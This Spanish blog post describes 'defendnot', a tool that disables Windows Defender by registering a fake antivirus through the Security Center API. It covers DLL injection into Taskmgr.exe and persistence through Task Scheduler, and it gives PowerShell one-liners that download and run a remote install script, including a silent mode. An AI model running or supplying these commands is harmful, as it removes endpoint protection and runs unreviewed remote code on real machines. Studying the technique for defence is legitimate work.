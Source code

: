 ```yaml
---
title: Nueva herramienta para desactivar Windows Defender
date: 2025-05-21 09:00:00 
categories: [HACKING]
tags: [hacking, tools, vulnerabilidad, ciberseguridad, malware]
description: Defendnot explota la API del Centro de Seguridad de Windows (WSC)..
image: /assets/135/preview1.png
---
```


Hoy traemos una herramienta para desactivar Microsoft Defender creada por es3n1n, hablamos de defendnot y se trata de la evolución de su no-defender, que fue retirada de GitHub tras una DMCA. Lo que ha hecho esta vez el propio es3n1n es un clean-room implementation: sin depender de AVs reales ni DLLs de terceros, y más centrado en un reverse engineering profundo del WSC.

<img src="/assets/135/135-01.png"  width="400" height="400">

La verdadera joya está en el writeup que el propio es3n1n publicó, donde describe cómo desmontó pieza a pieza el WSC para burlar sus defensas:

- WSC usa un API COM que verifica quién llama, validando la firma digital, que el proceso esté PPL, y otros checks en la seguridad del token del proceso (concretamente el SID de WinDefend).
- Los primeros intentos inyectando código en procesos comunes (como cmd.exe) fallaron porque no tenían las banderas correctas ni la firma PPL necesaria.
- Se dio cuenta que el proceso WSC está protegido con PPL, pero eso se puede saltar con un driver en modo kernel que desactiva esa protección (en entornos de pruebas).
- El punto clave fue elegir Taskmgr.exe como víctima para la inyección DLL, porque cumple con todos los requisitos de firma y PPL, pero no es un AV, lo que permite “engañar” al WSC.
- Además, entendió que WSC verifica el flag ForceIntegrity en las características DLL (DllCharacteristics) para validar que el proceso que hace las llamadas es legítimo.
- Para pasar el chequeo de tokens y evitar que se vincule con Windows Defender, no basta con impersonar el SID WinDefend (de hecho, esa técnica no funcionó), sino que hay que tener un proceso legítimo que cumpla todas las verificaciones.
- Finalmente, definió un mecanismo propio para transferir parámetros entre loader y DLL usando un archivo ctx.bin y para gestionar la persistencia con el Task Scheduler (teniendo cuidado con las condiciones de energía del sistema que pueden impedir la ejecución automática).

<img src="/assets/135/135-02.jpg"  width="400" height="400">

Es decir, básicamente Defendnot explota la API del Centro de Seguridad de Windows (WSC), la misma que usan los antivirus para decir “eh, soy el p*** amo aquí”. Y Windows, para evitar conflictos, automáticamente desactiva Defender cuando detecta un antivirus registrado. Hasta aquí, normal.

Pero la gracia está en cómo Defendnot hace el registro. No solo engaña a Windows haciéndole creer que hay un antivirus activo, sino que además:

**Bypassea mecanismos de defensa clave:**
- Protected Process Light (PPL): ese "muro" que impide meter código no firmado en procesos críticos.
- Firmas digitales previamente válidas:  no hay necesidad de firmar nada, porque inyecta una DLL dentro del proceso Taskmgr.exe (el Administrador de tareas), que es un proceso protegido y firmado por Microsoft.

**Inyección de DLL:**: Defendnot introduce su código malicioso dentro de Taskmgr.exe para registrar el antivirus falso. Al estar dentro de un proceso de confianza, se evita que Windows levante alarmas inmediatas.

**Loader personalizable**: Puedes cambiar el nombre del antivirus falso, desactivar el registro si quieres, y activar un logging bien verboso para trazar cada movimiento.

**Persistencia**: Usa el Windows Task Scheduler para automatizar su ejecución tras reinicios, manteniendo el truco vivo incluso después de apagar y encender el PC.

##### Instalación

Abre PowerShell como administrador y ejecuta cualquiera de estos comandos:

    # Example 1: Basic installation
    irm https://dnot.sh/ | iex
    
    # Example 2: With custom AV name
    & ([ScriptBlock]::Create((irm https://dnot.sh/))) --name "Custom AV name"
    
    # Example 3: Without allocating console
    & ([ScriptBlock]::Create((irm https://dnot.sh/))) --silent

**Nota**
Como se muestra en los ejemplos 2 y 3, puedes pasar argumentos por línea de comandos al script de instalación y este los enviará a defendnot-loader. Para referencia sobre qué argumentos están permitidos, consulta la sección Uso más abajo.

**Nota**
También puedes usar directamente la versión ‘larga’ del script de instalación, que es:
[https://raw.githubusercontent.com/es3n1n/defendnot/refs/heads/master/install.ps1](https://raw.githubusercontent.com/es3n1n/defendnot/refs/heads/master/install.ps1)

**Manual**
Descarga la última release, extráela en algún lugar y ejecuta defendnot-loader.

**Uso**

    Usage: defendnot-loader [--help] [--version] [--name VAR] [--disable] [--verbose] [--silent] [--autorun-as-user] [--disable-autorun]
    
    Optional arguments:
      -h, --help         prints help message and exits
      --version          shows version and exits
      -n, --name         av display name [default: "https://github.com/es3n1n/defendnot"]
      -d, --disable      disable defendnot
      -v, --verbose      verbose logging
      --silent           do not allocate console
      --autorun-as-user  create autorun task as currently logged in user
      --disable-autorun  disable autorun task creation

**Para cerrar**

Defendnot es el resultado de días de ingeniería inversa, debugging remoto con latencia de 210ms, uso de drivers para saltarse protecciones kernel, y un conocimiento profundo del funcionamiento interno de WSC y Windows Defender.

Si estás en el mundo del pentesting, red teaming o simplemente te mola entender cómo funcionan los sistemas de defensa de Windows y cómo romperlos (todo con la intención de mejorar la seguridad, claro), Defendnot es un proyecto que deberías tener en el radar ;)



